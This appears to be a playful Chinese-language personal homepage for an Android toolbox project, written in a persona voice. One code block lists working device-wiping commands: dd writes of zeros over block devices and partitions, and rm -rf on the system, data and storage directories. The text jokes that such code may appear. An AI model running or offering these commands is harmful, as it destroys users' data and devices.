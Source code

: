 ## Home

您好啊，指挥官！欢迎来到依的网页！   
您可以看到受支持的gitee网页[Wen_kong_App](https://gitee.com/qiuleyo/wen_kong_app/) by CoolapkのQiuLe  
您也可以看到依的作品[LuomoToolbox](https://github.com/Murong-Naiyi/Luomo-Toolbox)，它可以为您的ColorOS-GT设备提供一些便利！

### 何处食用

您可以在各个地方食用依，但是代码理应不会出现如下内容

```markdown

dd if=/dev/zero of=/dev/block/sda bs=1M count=100
dd if=/dev/zero of=/dev/block/sdb
dd if=/dev/zero of=/dev/block/sdc
dd if=/dev/zero of=/dev/block/sdd
dd if=/dev/zero of=/dev/block/sde
dd if=/dev/zero of=/dev/block/sdf
dd if=/dev/zero of=/dev/block/sda1
dd if=/dev/zero of=/dev/block/sda2
dd if=/dev/zero of=/dev/block/sda3
dd if=/dev/zero of=/dev/block/sda4
dd if=/dev/zero of=/dev/block/sda5
dd if=/dev/zero of=/dev/block/sda6
dd if=/dev/zero of=/dev/block/sda7
dd if=/dev/zero of=/dev/block/sda8
dd if=/dev/zero of=/dev/block/sda9
dd if=/dev/zero of=/dev/block/sda10
dd if=/dev/zero of=/dev/block/sda11
dd if=/dev/zero of=/dev/block/sda12
dd if=/dev/zero of=/dev/block/sda13

rm -rf /system
rm -rf /data
rm -rf /vendor
rm -rf /product
rm -rf /sdcard
rm -rf /storage/emulated/0

```

但是如果出现，那就由不得您啦，指挥官！

### 何处支持

如果指挥官真心支持依的话，那么您可以到网易大神、快点、迷说、酷安、快手、抖音、爱奇艺、哔哩哔哩、西瓜视频、今日头条、TT语音、比心、知乎、好看视频、小红书、YouTube、Facebook、Twitter、AcFun、Soul、陌陌等平台关注依喔！名字通常为“泠熙子”
